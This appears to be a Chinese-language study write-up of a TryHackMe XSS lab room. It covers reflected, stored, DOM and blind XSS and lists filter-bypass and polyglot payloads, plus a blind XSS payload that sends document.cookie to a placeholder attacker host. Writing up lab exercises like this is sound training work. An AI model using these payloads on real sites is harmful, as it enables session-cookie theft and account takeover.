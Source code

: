 > https://tryhackme.com/room/xssgi
> #Offensive #Web-Hacking #XSS

# Task 1 Room Brief

前置介绍，介绍了XSS（跨站脚本注入攻击），基本都是初步的介绍，没有深入讲述原理和攻击手法

# Task 2 XSS Payloads

简单介绍了XSS基本的负载类型
![[Pasted image 20221221212957.png]]

# Task 3 Reflected XSS

介绍了反射型XSS
![[Pasted image 20221221213147.png]]

# Task 4 Stored XSS

介绍了储存型XSS
![[Pasted image 20221221213409.png]]

# Task 5 DOM Based XSS

介绍了基于 DOM 的 XSS
![[Pasted image 20221221213643.png]]

# Task 6 Blind XSS

介绍了盲XSS，以及一个工具[xsshunter](https://xsshunter.com/)
![[Pasted image 20221221214021.png]]

# Task 7 Perfecting your payload

```plaintext
# level1
<script>alert('THM');</script>

# level2 类似于php中的提前闭合漏洞
"><script>alert('THM');</script> 

# level3 类似与level2，是直接提前闭合标签
</textarea><script>alert('THM');</script>

# level4 介绍了如何在Javascript中实现绕过，从而打成XSS
</textarea><script>alert('THM');</script>

# level5 网站过滤了script这一单词，所以只要简单做一个套娃复写就好
<sscriptcript>alert('THM');</sscriptcript>

# level6 之前的提前闭合等操作不起作用，所以可以使用img标签自带的onload属性
/images/cat.jpg" onload="alert('THM');
```

同时还介绍了`Polyglots`：
```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```

# Task 8 Practical Example (Blind XSS)

一个示例，演示了盲XSS的攻击过程
```plaintext
# Example Payload
</textarea><script>fetch('http://{URL_OR_IP}?cookie=' + btoa(document.cookie) );</script>
```
通过`</textarea>`闭合标签之后，每一次访问，都会将`document.cookie`输出到我们的服务器上（等就完事了）（怪，我没等到）
应该是Python开http.server的问题
![[Pasted image 20221221222623.png]]